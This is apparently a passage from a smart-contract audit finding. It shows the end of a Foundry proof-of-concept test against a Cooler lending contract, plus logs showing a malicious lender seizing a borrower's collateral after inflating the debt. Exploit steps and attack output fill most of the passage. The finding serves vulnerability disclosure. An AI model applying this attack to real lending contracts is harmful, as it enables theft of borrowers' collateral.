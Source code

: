 ```solidity 

        // the owner try to repay his oldDebt with the right amount before the manipulation , before the expiry time , the amount of token will repay a very small part of the dept and the malicious lender will get back his loan and the collateral of the owner .
        vm.warp(START_TIME + 10 days);
        vm.startPrank(owner);
        debt.approve(cooler_, oldDebt);
        Cooler(cooler_).repayLoan(loanId, oldDebt);

        console2.log(
            "the amount of collateral that is left for the malicious lender  :",
            Cooler(cooler_).getLoan(loanId).collateral
        );
        // the lender take the collateral after the loan is defaulted
        vm.warp(START_TIME + 61 days);
        vm.startPrank(lender);
        Cooler(cooler_).claimDefaulted(loanId);
        console2.log("------------------------------------------------------------------------------------------------");

        console2.log(
            "the balance of the collateral tokens for the OWNER after the attack : ",
            collateral.balanceOf(owner),
            "       ,the dept tokens ",
            debt.balanceOf(owner)
        );
        console2.log(
            "the balance of the collateral tokens for the LENDER after the attack : ",
            collateral.balanceOf(lender),
            "   , the debt tokens: ",
            debt.balanceOf(lender)
        );
    }
}

```
**the LOGS contains the balances for the lender and the owner (borrower) before and after the attack , after the lender force the loan to default and take the collateral from the borrower** 
```solidity
[PASS] testStealTheCollateralByLender() (gas: 619153)
Logs:
  the balance of the collateral tokens for the OWNER befor the attack :  1000000000000000000        , the dept tokens  4109589041095890
  the balance of the collateral tokens for the LENDER befor the attack :  410958904109589      , the debt tokens:  10000000000000000000
  ------------------------------------------------------------------------------------------------
  the old dept that the owner should pay before the manipulation :  10004109589041095890
  the new dept that the owner should pay : 4111277913314564064383561643826
  the amount of collateral that is left for the malicious lender  : 1000410958901675256 
  ------------------------------------------------------------------------------------------------
  the balance of the collateral tokens for the OWNER after the attack :  2434333        ,the dept tokens  0
  the balance of the collateral tokens for the LENDER after the attack :  1000410958901675256    , the debt tokens:  10004109589041095890
```
the logs show that the owner loss all his collateral and all the debt amount when he try to repay the loan , and the balances of the lender increased by the amount that the owner loss . 

